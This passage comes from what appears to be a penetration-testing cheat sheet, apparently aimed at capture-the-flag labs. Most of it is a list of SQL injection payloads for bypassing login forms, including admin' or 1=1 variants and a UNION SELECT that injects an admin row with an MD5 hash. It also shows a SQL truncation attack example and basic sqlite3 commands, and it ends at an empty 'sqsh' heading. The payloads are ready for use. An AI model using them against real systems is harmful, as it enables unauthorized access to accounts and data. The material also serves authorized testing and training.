 ```c
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

#### SQL Truncation Attack

```c
'admin@<FQDN>' = 'admin@<FQDN>++++++++++++++++++++++++++++++++++++++htb'
```

#### sqlite3

```c
sqlite3 <FILE>.db
```

```c
sqlite> .tables
sqlite> PRAGMA table_info(<TABLE>);
sqlite> SELECT * FROM <TABLE>;
```

#### sqsh
